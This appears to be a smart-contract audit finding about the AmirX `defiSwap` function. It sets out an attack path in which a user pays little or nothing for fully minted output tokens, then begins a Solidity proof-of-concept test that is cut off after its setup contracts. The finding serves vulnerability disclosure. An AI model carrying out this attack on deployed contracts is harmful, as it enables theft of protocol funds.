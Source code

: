 ### Attack Path

1. Call data is generated by an external party to initiate the swap, and the wallet owner signs it.
2. The call is executed to perform the `defiSwap`, triggering the multisig process.
3. The swap is carried out on the smart wallet.
4. A module is invoked to transfer some or all of the swapped amount to another address.
5. The `ss.oAmount` reflects only the remaining change in the origin amount.
6. The call succeeds, and the user pays less (or nothing) while receiving the full minted output tokens.


### Impact

The protocol can suffer Losses in case the amount is less than what is expected etc.

### PoC

The PoC shows that the checks are easily exploitable where user pays nothing and get the whole amounts of output tokens:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.22;

import {Test} from "forge-std/Test.sol";
import {console2} from "forge-std/console2.sol";
import {Stablecoin} from "../../contracts/stablecoin/Stablecoin.sol";
import {StablecoinHandler} from "../../contracts/stablecoin/StablecoinHandler.sol";
import {AmirX} from "../../contracts/swap/AmirX.sol";
import {TestPlugin} from "../../contracts/swap/test/TestPlugin.sol";
import {TestAggregator} from "../../contracts/swap/test/TestAggregator.sol";
import {TestTokenDynamic} from "../../contracts/test/TestTokenDynamic.sol";
import {TestWallet} from "../../contracts/test/TestWallet.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {ISimplePlugin} from "../../contracts/swap/interfaces/ISimplePlugin.sol";

contract MyTestWallet {
    Stablecoin public eUSD;
    Stablecoin public eEUR;

    constructor(Stablecoin _eEUR, Stablecoin _eUSD) public {
        eUSD = _eUSD;
        eEUR = _eEUR;
    }

    function performSwap(MyTestAggregator aggregator, address stablecoin, address to, uint256 value) public {
        // approve AmirX for burning the stablecoing
        Stablecoin(stablecoin).approve(msg.sender, value);

        aggregator.swap(stablecoin, to, value);
    }
}

contract MyTestAggregator {
    Stablecoin public eUSD;
    Stablecoin public eEUR;
    ERC20 public telcoin;

    constructor(Stablecoin _eEUR, Stablecoin _eUSD, ERC20 _telcoin) public {
        eUSD = _eUSD;
        eEUR = _eEUR;
        telcoin = _telcoin;
    }
```